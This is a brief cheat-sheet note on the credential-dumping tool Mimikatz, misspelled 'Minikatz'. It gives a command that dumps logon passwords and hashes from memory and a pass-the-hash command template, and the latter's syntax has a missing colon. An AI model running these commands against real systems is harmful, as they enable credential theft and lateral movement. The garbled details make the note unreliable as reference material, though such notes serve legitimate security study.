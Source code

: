 **1. Minikatz**
- Get password, hash, PIN from RAM
- Privilege escalation
- Perform attack techniques like Pass-the-Hash, Pass-the-Ticket, Golden Ticket
```
sekurlsa::logonPasswords
```

Pass-to-hash attack: accept an authenticated user based on the hash to execute the action
```
sekurlsa:pth /user:<name> /domain:<domain> /ntlm:<hash>
```
